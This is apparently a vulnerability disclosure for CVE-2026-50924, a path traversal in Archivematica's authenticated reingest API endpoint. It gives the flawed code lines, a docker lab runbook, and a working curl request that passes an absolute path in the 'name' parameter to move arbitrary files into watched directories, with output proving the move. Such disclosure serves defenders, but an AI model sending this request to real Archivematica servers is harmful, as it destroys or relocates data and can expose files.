



# CVE-2026-50924 — Path Traversal in Archivematica `reingest` endpoint moves arbitrary files into watched directories

[CVE ID]
CVE-2026-50924

[PRODUCT]
artefactual/archivematica — open-source digital preservation system (Django dashboard/API + MCP client/server processing pipeline)

[VERSION]
Upstream HEAD commit `1315a59e221c86060e5ecf7132f893618d7fcf30` (commit `1315a59e221c86060e5ecf7132f893618d7fcf30`)

[PROBLEM TYPE]
Directory Traversal (`CWE-22`), leading to arbitrary-path file move / write with attacker-uncontrolled content (`CWE-73`)

## Description

The authenticated API endpoint `POST /api/transfer/reingest/` (routed to `reingest(request, target)` and decorated with `_api_endpoint(expected_methods=["POST"])`, which enforces API-key/session authentication plus an optional IP allowlist) reads the attacker-controlled POST parameter `name` into `sip_name` without any path validation. `sip_name` is then joined onto the pipeline's shared directory as `source = os.path.join(shared_directory_path, "tmp", sip_name)`. Because `os.path.join` discards all preceding components when a later component is absolute, an absolute path in `name` replaces the intended `%sharedPath%/tmp/` prefix entirely (`../` segments likewise escape it). The resulting path is passed to `shutil.move(source, dest)`, which moves the named existing file or directory into the watched transfer directory (`watchedDirectories/activeTransfers/standardTransfer/<basename>-<reingest_uuid>/`; the `ingest` target variant moves into `watchedDirectories/system/reingestAIP/`), where the Archivematica pipeline then picks it up and deletes DB rows tied to the supplied `uuid`.

Vulnerable code: <https://github.com/artefactual/archivematica/blob/1315a59e221c86060e5ecf7132f893618d7fcf30/src/archivematica/dashboard/components/api/views.py#L563-L564> (auth-gated endpoint), [L581](https://github.com/artefactual/archivematica/blob/1315a59e221c86060e5ecf7132f893618d7fcf30/src/archivematica/dashboard/components/api/views.py#L581) (`sip_name = request.POST.get("name")`), [L600](https://github.com/artefactual/archivematica/blob/1315a59e221c86060e5ecf7132f893618d7fcf30/src/archivematica/dashboard/components/api/views.py#L600) (`source = os.path.join(shared_directory_path, "tmp", sip_name)`), [L653](https://github.com/artefactual/archivematica/blob/1315a59e221c86060e5ecf7132f893618d7fcf30/src/archivematica/dashboard/components/api/views.py#L653) (`shutil.move(source, dest)`).

## Proof of Concept

### Victim setup

Full runbook: `evidence/transcript.txt` sections [1/7]-[5/7]. Condensed (official `hack/` dev environment, project `scdd_50924`, nginx published on `127.0.0.1:34554`):

```bash
# archivematica @ 1315a59e221c86060e5ecf7132f893618d7fcf30, hack/submodules/archivematica-storage-service @ ac775f3393fea95e22ddb4b6e5682ecbd2a61f33
cd archivematica/hack
dc() { docker compose -p scdd_50924 "$@"; }
dc up -d elasticsearch mysql gearmand clamavd nginx        # + wait for mysql/es health
docker exec scdd_50924-mysql-1 mysql -uroot -p12345 -e \
  "CREATE DATABASE IF NOT EXISTS MCP; CREATE DATABASE IF NOT EXISTS SS;
   GRANT ALL PRIVILEGES ON MCP.* TO 'archivematica'@'%'; GRANT ALL PRIVILEGES ON SS.* TO 'archivematica'@'%'; FLUSH PRIVILEGES;"
dc run --rm --no-deps --use-aliases --entrypoint /src/src/archivematica/storage_service/manage.py archivematica-storage-service migrate --noinput
dc run --rm --no-deps --use-aliases --entrypoint /src/src/archivematica/storage_service/manage.py archivematica-storage-service create_user --username=test --password=test --email=test@test.com --api-key=test --superuser
dc up -d archivematica-storage-service                      # + wait for :8000
dc run --rm --no-deps --use-aliases --entrypoint python3 archivematica-dashboard /src/src/archivematica/dashboard/manage.py migrate --noinput
dc run --rm --no-deps --use-aliases --entrypoint python3 archivematica-dashboard /src/src/archivematica/dashboard/manage.py install \
  --username=test --password=test --email=test@test.com --org-name=test --org-id=test --api-key=test \
  --ss-url=http://archivematica-storage-service:8000 --ss-user=test --ss-api-key=test --site-url=http://archivematica-dashboard:8000
dc up -d && dc restart archivematica-storage-service archivematica-dashboard archivematica-mcp-server archivematica-mcp-client
curl -sS -o /dev/null -w '%{http_code}\n' http://127.0.0.1:34554/   # -> 302, dashboard is up
```



### Attack steps

From an authenticated API client (marker directory first planted outside the shared directory to represent any file/dir readable by the service user; see transcript [6/7]):

```bash
# 1) source directory with marker (normally any existing path on the dashboard host, e.g. a sensitive file)
docker exec scdd_50924-archivematica-dashboard-1 bash -lc \
  "mkdir -p /tmp/cve50924_reingest_src_1790576009 && printf '%s' CVE50924_MARKER_1790576009 > /tmp/cve50924_reingest_src_1790576009/marker.txt"

# 2) absolute-path override in the `name` parameter -> shutil.move source leaves %sharedPath%/tmp
curl -sS -X POST http://127.0.0.1:34554/api/transfer/reingest/ \
  -H 'Authorization: ApiKey test:test' \
  --data-urlencode 'name=/tmp/cve50924_reingest_src_1790576009' \
  --data-urlencode 'uuid=40e15727-d341-4b5b-9e54-d9c63ea2b902'
# -> {"message": "Approval successful.", "reingest_uuid": "5d4010f1-f0e2-4853-ace0-2c32554152c7"}   (HTTP 200)
```



### Evidence

The source directory was moved out of `/tmp` into the watched directory, and the original location no longer exists (move, not copy):

```text
$ docker exec scdd_50924-archivematica-dashboard-1 bash -lc "ls -la '/var/archivematica/sharedDirectory/watchedDirectories/activeTransfers/standardTransfer/cve50924_reingest_src_1790576009-5d4010f1-f0e2-4853-ace0-2c32554152c7'; cat '.../marker.txt'; ls -la /tmp/cve50924_reingest_src_1790576009"
total 12
drwxrwxrwx 2 archivematica archivematica 4096 Sep 28 06:13 .
drwxr-x--- 3 archivematica archivematica 4096 Sep 28 06:13 ..
-rw-rw-rw- 1 archivematica archivematica  26 Sep 28 06:13 marker.txt
--- moved marker content:
CVE50924_MARKER_1790576009
--- source dir after move:
ls: cannot access '/tmp/cve50924_reingest_src_1790576009': No such file or directory
MARKER MATCH: CVE50924_MARKER_1790576009
### RESULT: SCDD_E2E_VERIFIED_OK
```



## Impact

A remote attacker who holds valid Archivematica dashboard credentials (API key or session; the optional `API_ALLOWED_IPS` allowlist applies only when configured — it is unset in the default/official deployment used here) can make the dashboard process move an existing file or directory that the `archivematica` service user has permission to move (both read access for the lookup and write access to the parent directory for the unlink/rename; the demonstrated source was created in `/tmp`) from an arbitrary filesystem path into the pipeline's watched directories, and thereby: (a) potential exfiltration-by-processing — a plausible downstream consequence, not demonstrated here: moved content is deposited in a watched directory that the pipeline processes into transfers/AIPs, which an authenticated attacker could then download; the evidence in this report verifies the move into the watched directory, not subsequent processing into an AIP or its download; (b) remove the file/directory from its original location (destructive move, availability impact); (c) inject arbitrary existing content as a new transfer. The write primitive is "arbitrary path, restricted content": the resulting file content always comes from the pre-existing source path chosen, not from attacker-supplied bytes. Impact boundary confirmed by the case archive: 原语 file_write (move), 任意路径 yes, 任意内容写入 no, 需认证.

## Occurrences

- `src/archivematica/dashboard/components/api/views.py:L563-L564` — auth-gated `reingest` endpoint (`_api_endpoint(expected_methods=["POST"])`)
- `src/archivematica/dashboard/components/api/views.py:L581` — tainted input `sip_name = request.POST.get("name")`
- `src/archivematica/dashboard/components/api/views.py:L600` — unvalidated join `source = os.path.join(shared_directory_path, "tmp", sip_name)`
- `src/archivematica/dashboard/components/api/views.py:L653` — sink `shutil.move(source, dest)`

## References

- [CVE-2026-50924](https://www.cve.org/CVERecord?id=CVE-2026-50924)
- [artefactual/archivematica](https://github.com/artefactual/archivematica) — pinned commit [`1315a59`](https://github.com/artefactual/archivematica/tree/1315a59e221c86060e5ecf7132f893618d7fcf30)
